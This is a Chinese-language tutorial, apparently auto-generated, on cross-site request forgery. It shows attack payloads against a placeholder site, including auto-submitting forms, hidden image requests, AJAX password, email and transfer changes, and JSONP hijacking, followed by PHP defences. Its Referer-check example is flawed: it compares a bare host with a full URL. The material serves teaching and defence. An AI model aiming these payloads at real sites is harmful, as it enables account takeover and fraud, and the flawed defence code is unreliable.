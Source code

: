 # CSRF漏洞利用与防护的攻击技术实战演练文档

## 1. 概述

跨站请求伪造（CSRF，Cross-Site Request Forgery）是一种常见的Web安全漏洞，攻击者通过诱使受害者在已认证的Web应用中执行非预期的操作，从而绕过身份验证机制。本文档将详细说明CSRF漏洞的常见攻击手法和利用方式，并提供相应的防护策略。

## 2. CSRF漏洞利用的攻击技术

### 2.1 基本攻击原理

CSRF攻击的基本原理是利用受害者在目标网站上的已认证状态，通过伪造请求来执行恶意操作。攻击者通常通过以下步骤实施攻击：

1. **受害者登录目标网站**：受害者在目标网站上完成身份认证，并保持会话状态。
2. **攻击者构造恶意请求**：攻击者构造一个针对目标网站的恶意请求，通常包含敏感操作（如修改密码、转账等）。
3. **诱使受害者触发请求**：攻击者通过社交工程手段（如发送钓鱼邮件、嵌入恶意链接等）诱使受害者访问包含恶意请求的页面。
4. **请求被自动发送**：受害者在不知情的情况下，浏览器自动发送恶意请求，由于会话状态已认证，目标网站执行该请求。

### 2.2 常见攻击手法

#### 2.2.1 自动提交表单

攻击者可以通过构造一个自动提交的表单，利用受害者的浏览器自动发送恶意请求。以下是一个简单的HTML表单示例：

```html
<form action="https://target.com/change_password" method="POST">
  <input type="hidden" name="new_password" value="hacked">
  <input type="hidden" name="confirm_password" value="hacked">
</form>
<script>
  document.forms[0].submit();
</script>
```

当受害者访问包含该表单的页面时，表单会自动提交，导致密码被修改。

#### 2.2.2 图片标签攻击

攻击者可以通过嵌入恶意图片标签来触发CSRF攻击。以下是一个示例：

```html
<img src="https://target.com/transfer?amount=1000&to=attacker" width="0" height="0">
```

当受害者访问包含该图片标签的页面时，浏览器会自动发送GET请求，导致资金被转移。

#### 2.2.3 AJAX请求攻击

攻击者可以通过JavaScript发起AJAX请求来实施CSRF攻击。以下是一个示例：

```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://target.com/change_email", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("new_email=attacker@example.com");
```

当受害者访问包含该脚本的页面时，AJAX请求会自动发送，导致邮箱被修改。

### 2.3 高级攻击技术

#### 2.3.1 绕过同源策略

同源策略（Same-Origin Policy）是浏览器的一种安全机制，限制不同源的脚本访问彼此的资源。攻击者可以通过以下方式绕过同源策略：

- **JSONP劫持**：利用JSONP（JSON with Padding）接口，攻击者可以获取目标网站的数据。例如：

  ```html
  <script src="https://target.com/api?callback=attackerCallback"></script>
  <script>
    function attackerCallback(data) {
      // 处理获取的数据
    }
  </script>
  ```

- **CORS滥用**：如果目标网站配置了不安全的CORS（Cross-Origin Resource Sharing）策略，攻击者可以通过跨域请求获取敏感数据。

#### 2.3.2 利用XSS漏洞

如果目标网站存在XSS（Cross-Site Scripting）漏洞，攻击者可以通过注入恶意脚本来实施CSRF攻击。例如：

```javascript
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://target.com/transfer", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("amount=1000&to=attacker");
</script>
```

当受害者访问包含该脚本的页面时，恶意请求会自动发送，导致资金被转移。

## 3. CSRF漏洞防护技术

### 3.1 使用CSRF Token

CSRF Token是一种常见的防护机制，通过在请求中嵌入随机生成的Token来验证请求的合法性。以下是一个简单的实现示例：

```php
// 生成CSRF Token
$csrf_token = bin2hex(random_bytes(32));
$_SESSION['csrf_token'] = $csrf_token;

// 在表单中嵌入CSRF Token
echo '<input type="hidden" name="csrf_token" value="' . $csrf_token . '">';

// 验证CSRF Token
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
  die("CSRF token validation failed.");
}
```

### 3.2 验证Referer头

通过验证HTTP请求的Referer头，可以确保请求来自合法的源。以下是一个简单的实现示例：

```php
$referer = $_SERVER['HTTP_REFERER'];
$allowed_domains = ['https://target.com'];

if (!in_array(parse_url($referer, PHP_URL_HOST), $allowed_domains)) {
  die("Invalid Referer.");
}
```

### 3.3 使用SameSite Cookie属性

SameSite Cookie属性可以限制Cookie的发送范围，防止跨站请求携带Cookie。以下是一个简单的实现示例：

```php
session_set_cookie_params([
  'samesite' => 'Strict',
]);
session_start();
```

### 3.4 双重提交Cookie

双重提交Cookie是一种通过比较Cookie和请求参数中的Token来验证请求合法性的方法。以下是一个简单的实现示例：

```php
// 生成CSRF Token
$csrf_token = bin2hex(random_bytes(32));
setcookie('csrf_token', $csrf_token, time() + 3600, '/', '', true, true);

// 在表单中嵌入CSRF Token
echo '<input type="hidden" name="csrf_token" value="' . $csrf_token . '">';

// 验证CSRF Token
if ($_POST['csrf_token'] !== $_COOKIE['csrf_token']) {
  die("CSRF token validation failed.");
}
```

## 4. 总结

CSRF漏洞利用与防护是Web安全中的重要课题。攻击者通过伪造请求来执行恶意操作，而开发者则可以通过使用CSRF Token、验证Referer头、SameSite Cookie属性等防护机制来有效防御CSRF攻击。在实际开发中，应结合多种防护措施，确保Web应用的安全性。

---

*文档生成时间: 2025-03-11 12:04:57*
